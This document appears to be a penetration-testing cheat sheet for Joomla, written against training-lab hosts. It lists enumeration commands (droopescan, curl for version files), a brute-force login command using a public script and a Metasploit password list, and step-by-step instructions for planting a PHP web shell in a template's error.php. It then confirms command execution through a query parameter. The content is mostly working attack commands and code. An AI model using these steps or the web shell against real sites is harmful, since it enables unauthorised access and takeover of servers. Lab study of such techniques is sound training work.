

droopescan
```
sudo pip3 install droopescan
droopescan scan joomla --url http://dev.inlanefreight.local/
```

View the robots.txt file and README.txt file for version
```
curl -s http://dev.inlanefrieght.local/ | grep Joomla
curl -s http://dev.inlanefreight.local/README.txt | head -n 5
curl -s http://dev.devvortex.htb/administrator/manifests/files/joomla.xml | xmllint --format -
```

Brute Force Login
[https://github.com/ajnik/joomla-bruteforce](https://github.com/ajnik/joomla-bruteforce)
```
sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```

RCE at /administrator backend
1) Go to Templates on the bottom left under Configuration
2) Click on a template and choose Protostar under Template column 
3) In Templates: Customize page select a page (error.php) and add the one-liner
```
system($_GET['cmd']);
```
4) Save and close then confirm code execution with curl 
```
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
```


